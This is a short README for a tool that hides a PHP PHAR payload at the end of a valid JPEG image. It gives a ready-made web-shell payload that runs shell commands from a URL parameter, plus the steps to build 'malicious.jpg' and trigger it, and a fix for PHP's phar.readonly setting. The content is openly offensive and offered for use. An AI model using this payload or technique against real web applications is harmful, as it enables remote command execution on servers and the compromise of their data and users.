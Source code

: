# JPEG PHAR Fusion

This is a simple tool to add a phar payload at the end of a valid jpeg image.

## Requierments
- Python 3
- Php (Tested with php 8)

## Usage

Clone the repo
git clone https://github.com/Sarapuce/jpeg-phar-fusion.git

Choose a php payload finishing by __HALT_COMPILER(); for example :
<?php system($_GET["cmd"]); __HALT_COMPILER(); ?>

Place the php code int the text file called "malicious_php_code.txt"

Create the payload with the script
python3 phar_creator.py

The file is in malicious.jpg

Run "php include.php" to see the code executed!!

## If It doesn't work 😡
Do you have the error

PHP Fatal error: Uncaught UnexpectedValueException: creating archive "payload.phar" disabled by the php.ini setting phar.readonly

You need to enable the phar creation in php.ini

To locate your php.ini

php --ini

Then edit this line in your file

;phar.readonly = Off

into

phar.readonly = Off

